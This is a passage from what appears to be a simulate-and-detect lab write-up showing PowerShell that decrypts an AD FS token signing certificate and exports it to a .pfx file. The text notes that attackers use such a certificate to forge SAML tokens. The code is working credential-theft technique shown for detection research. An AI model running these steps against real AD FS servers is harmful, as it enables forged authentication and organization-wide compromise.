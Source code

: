 ```PowerShell
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$pfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

![](../../resources/images/simulate_detect/credential-access/localExportADFSTokenSigningCertificate/2021-05-19_20_decrypt_certificate.png)

## Export AD FS Token Signing Certificate
We can simply export the token signing certificate cipher text to a .pfx file.

Once again, remember that a threat actor would decrypt and export the token signing certificate and sign SAML tokens in their own environment outside of the organization.

```PowerShell
$CertificatePath = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$pfx | Set-Content $CertificatePath -Encoding Byte
```

![](../../resources/images/simulate_detect/credential-access/localExportADFSTokenSigningCertificate/2021-05-19_21_export_certificate.png)
